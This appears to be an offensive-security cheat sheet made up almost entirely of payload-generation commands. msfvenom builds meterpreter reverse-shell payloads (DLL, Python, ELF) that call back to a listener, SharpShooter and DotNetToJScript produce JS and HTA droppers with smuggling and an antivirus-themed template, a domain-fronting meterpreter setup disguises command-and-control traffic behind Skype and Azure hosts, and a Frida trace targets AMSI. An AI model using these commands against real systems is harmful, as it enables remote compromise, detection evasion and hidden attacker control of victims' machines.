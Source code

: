 DLL (for rundll32)
```shell
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.1 LPORT=443 -f dll -o data/exploit.dll
```

Python
```shell
msfvenom -p python/meterpreter/reverse_https LHOST=192.168.1.1 LPORT=443 -f raw -o data/shell.py
```

ELF
```shell
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=443 EXITFUNC=thread -f elf -o /var/www/html/met.elf
```

DotNetToJscriptDirectly
```shell
DotNetToJScript.exe ExampleAssembly.dll --lang=VBScript --ver=v4 -o runner.vbs
```

JS through SharpShooter
```shell
python SharpShooter.py --payload js --dotnetver 4 --stageless --rawscfile /var/www/html/shell.txt --output test

python SharpShooter.py --payload js --dotnetver 2 --scfile /var/www/html/payload.txt --output test --delivery web --web http://192.168.1.1/output/test.payload --smuggle --template mcafee --shellcode
```

HTA through SharpShooter
```shell
python2 SharpShooter.py --payload hta --rawscfile ~/sharpshooter.raw --dotnetver 2  --output test --stageless
```

Domain fronting meterpreter
```shell
msfvenom -p windows/x64/meterpreter/reverse_http LHOST=do.skype.com LPORT=80 HttpHostHeader=cdn.azureedge.net -f exe > http-df.exe
```

```shell
set LHOST do.skype.com
set OverrideLHOST do.skype.com
set OverrideRequestHost true
set HttpHostHeader offensive-security.azureedge.net
run -j
```

<hr>
# AMSI
<hr>
Hooking with Frida
```shell
frida-trace -p 3532 -x amsi.dll -i Amsi*
```
